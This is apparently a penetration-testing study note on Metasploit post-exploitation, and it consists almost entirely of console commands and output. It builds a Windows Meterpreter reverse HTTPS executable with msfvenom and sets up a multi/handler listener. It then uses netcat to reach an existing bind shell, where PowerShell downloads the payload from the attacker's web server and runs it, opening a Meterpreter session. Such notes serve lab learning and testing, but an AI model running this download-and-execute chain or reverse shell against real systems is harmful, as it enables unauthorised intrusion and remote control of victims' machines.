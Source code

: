 ```console
msf6 exploit(multi/handler) > set LHOST 192.168.45.198
LHOST => 192.168.45.198
msf6 exploit(multi/handler) > set LPORT 443

msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.119.2:443 
```

## Post-Exploitation with Metasploit

Note: the Linux Meterpreter payload contains fewer post-exploitation features than the Windows one.

Assume we already gained an initial foothold on the target system and deployed a bind shell as way of accessing the system.

```
192.168.249.223
```

```console
$ msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.45.198 LPORT=443 -f exe -o met.exe
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_https
payload => windows/x64/meterpreter_reverse_https

msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443

msf6 exploit(multi/handler) > run
[*] Exploit running as background job 2.
[*] Exploit completed, but no session was created.

$ python3 -m http.server 80

// connect to bind shell we already have

$  nc 192.168.249.223 4444

> whoami /priv
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 

> powershell

> iwr -uri http://192.168.45.198/met.exe -Outfile met.exe

> .\met.exe


[*] Meterpreter session 1 opened (192.168.45.198:443 -> 192.168.249.223:62156) at 2024-04-07 16:40:34 -0400

meterpreter > 
```
